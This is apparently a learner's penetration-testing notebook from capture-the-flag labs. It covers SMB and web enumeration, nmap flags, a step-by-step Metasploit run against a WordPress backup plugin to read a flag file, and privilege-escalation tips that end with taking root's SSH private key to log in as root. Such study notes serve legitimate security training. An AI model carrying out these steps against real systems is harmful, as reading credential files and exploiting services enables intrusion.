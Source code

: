 ## SMB shares

To connect to a SMB share over a network as the user Bob
```
smbclient -U bob \\\\10.129.74.37\\users
```
To just look at the users on the network, use this command
```
smbclient -N -L \\\*ip-adress*
```

# Web Enumeration

## Se any hidden files or directories on a webserver that is not intended for public access. 

Tools: 

https://github.com/ffuf/ffuf

https://github.com/OJ/gobuster

## HTTP status codes

https://en.wikipedia.org/wiki/List_of_HTTP_status_codes

## DNS Subdomain Enumeration

Contains many useful lists for fuzzing and exploitation: https://github.com/danielmiessler/SecLists

Take screenshots of target web applications, fingerprint them, and indentify possible default credentials: https://github.com/FortyNorthSecurity/EyeWitness

## Video to help

https://www.youtube.com/watch?v=6Ekm0hXfvME

## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack


## Useful nmap commands list

---

Nmap dash list

-sV = Version scan

-sC = Specify Nmap scripts

-p- = Scans all 65,535 TCP ports

-sV --script=banner = Banner grabbing

---
<br>

To learn more about nmap: https://academy.hackthebox.com/module/details/19

---

## Privilege Ecalation

### PrivEsc Checklists

Checklists for Linux and Windows, but contains more info: https://book.hacktricks.xyz/welcome/readme

Also a checklist: https://github.com/swisskyrepo/PayloadsAllTheThings

 ### Enumeration Scripts
 
 Linux enumeration scripts: https://github.com/rebootuser/LinEnum
 
 Linux Privilege Escalation Check Script: https://github.com/sleventyeleven/linuxprivchecker
 
 For windows: https://github.com/GhostPack/Seatbelt
 
 https://github.com/411Hall/JAWS
 
 ### Kernel Exploits
 
 If you find any service running and old operation system, we should start by looking for potential kernel vulnerabilities that may exist. To search up older versions for vulnerabilities we use ```searchsploit```
 
 ### Vulnerable Software
 
 We need to check what runs on the system. In linux we do this with running ```dpkg -l``` and on Windows we look at C:\Program Files to check what software that is installed on the system. Then just look for older versions that are in use, and search for vulnerabilities. 
 
 ### User Privileges
 
 ```sudo -l``` to see what sudo privileges we have.
 
 List of commands on how they can explited through sudo: https://gtfobins.github.io/
 
 Contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user: https://lolbas-project.github.io/#
 
 ### Schedueled tasks
 
There are usually two ways to take advantage of scheduled tasks (Windows) or cron jobs (Linux) to escalate our privileges:

 1. Add new scheduled tasks/cron jobs
 2. Trick them to execute a malicious software

The easiest way is to check if we are allowed to add new scheduled tasks. In Linux, a common form of maintaining scheduled tasks is through Cron Jobs. There are specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them. These include:

/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root

If we can write to a directory called by a cron job, we can write a bash script with a reverse shell command, which should send us a reverse shell when executed.

### Q

sudo -u user2 /bin/bash 

This is to gain access to the flag.

Now to get root we go into the root directory.

```cd root```

To see that the flag is there
```ls```

```cd .shh```

```cat id_rsa```
And copy the key and save it on our computer as id_rsa.

Now go into the directory where our new id_rsa is and type this

```chmod 600 id_rsa```

Now, lets connect to our root

```ssh root@*ip-adress -p *port -i id_rsa```

Now we have root, and we can just cat our flag.txt file to find the flag.
